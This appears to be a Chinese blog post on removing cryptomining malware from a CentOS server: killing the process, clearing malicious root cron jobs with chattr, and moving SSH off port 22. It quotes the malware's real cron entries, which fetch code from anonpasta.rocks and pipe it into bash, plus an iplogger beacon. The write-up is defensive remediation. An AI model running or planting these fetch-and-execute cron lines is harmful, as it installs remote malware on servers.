 # 解决挖矿病毒导致的cpu100%

> 忘记病毒进程的截图了，解决后也找不到了，就说一下整个过程吧。姑且把对手称之为“病毒”吧。
>
> 以下是我个人的解决方法，如果大神觉得不妥恳请指正。

------

## 1、解决病毒



> - 首先top -c 查看某进程cpu使用逼近100%，说明此事不简单，默默记下PID。
>
> - 查看进程的工作路径` ll /proc/PID/exe`，我的是在`/var/tmp/bbb`。
>
> - 可以选择删除改路径下的bbb文件夹，然后`kill -9 PID`。但通常这种注入都有定时，所以只是这样一会儿还会出现该进程继续霸占cpu。所以重点时得把定时给搞了。
>
> - 通过`crontab -e` 或 `vim /var/spool/cron/root`打开root用户的定时任务：
>
>   ```shell
>   */7 * * * * curl -A fczyo-cron/1.6 -sL $(curl -sL https://anonpasta.rocks/raw/nofoletove) | bash -s >/dev/null 2>&1
>   */10 * * * * curl -A fczyo-cron/1.6 -sL $(curl -sL https://anonpasta.rocks/raw/imusacubix) | bash -s >/dev/null 2>&1
>   */3 * * * * curl -A goodboy/1.5 -sL https://iplogger.org/1i9ve7
>   */2 * * * * curl -A fczyo-cron/1.6 -sL $(curl -sL https://anonpasta.rocks/raw/atucewakep) | bash -s >/dev/null 2>&1
>   ```
>
>   <font color='#02C874'>**按道理直接删除文件就行，但这样不太优雅，而且病毒会自动创建同名文件继续搞它的定时任务，所以我选择保留文件，只是把内容删除。**</font>
>
> - 可是，通常病毒会把该文件权限设置为“只读 -i”，“可追加 -a”，我们可以通过如下命令查看权限：
>
>   ```shell
>   lsattr /var/spool/cron/root
>   ```
>
>   结果：
>
>   ```shell
>   ----ia-------e- /var/spool/cron/root
>   ```
>
>   这样的话我们没法直接删除文件中的内容，需要先修改权限，如下：
>
>   ```shell
>   chattr -ia /var/spool/cron/root
>   ```
>
>   然后就可以`vim /var/spool/cron/root`将里面的内容删除然后:wq了。
>
> - <font color='#02C874'>**重点！！做完这些后，把权限再改为只读，并不允许追加，防止病毒继续追加内容进去，这样就白删了**</font>，所以执行：
>
>   ```shell
>   chattr +i /var/spool/cron/root
>   ```
>
>   至此，目前病毒就无法注册定时任务了，然后放心的kill掉那个进程。

------



## 2、防止再次被搞？



> - 修改远程连接密码（该方式简单）
>
> - 修改ssh端口（默认时22）：
>
>   > 这里有个问题，就是阿里云不让在网页控制台直接修改ssh的端口，如下：
>   >
>   > ![image-20200407114037444](PicSource/image-20200407114037444.png)
>   >
>   > 灰色不能修改。那就只能在服务器内部修改了。
>   >
>   > - 主要是修改`/etc/ssh/sshd_config `文件中的Port属性：
>   >
>   >   ![image-20200407114341886](PicSource/image-20200407114341886.png)
>   >
>   >   先添加一个自定义的不冲突的端口，如5656，然后保存。
>   >
>   >   <font color='#02C874'>**这里有个问题，可能遇到也是同上面修改定时任务文件`/var/spool/cron/root`时遇到的权限问题，再使用上面的那些方法修改权限后再修改文件，然后恢复原有权限即可。**</font>
>   >
>   >   
>   >
>   > - 重启ssh，我用的是centos，命令如下：
>   >
>   >   ```shell
>   >   systemctl restart sshd.service
>   >   ```
>   >
>   > - 然后修改我们的ssh客户端软件，让其使用刚才定义的5656端口进行连接，连接过后，再修改配置文件把22端口删掉，这样就无法通过22端口做ssh连接了。
>   >
>   > - 最后为了安全，配一配防火墙啥的。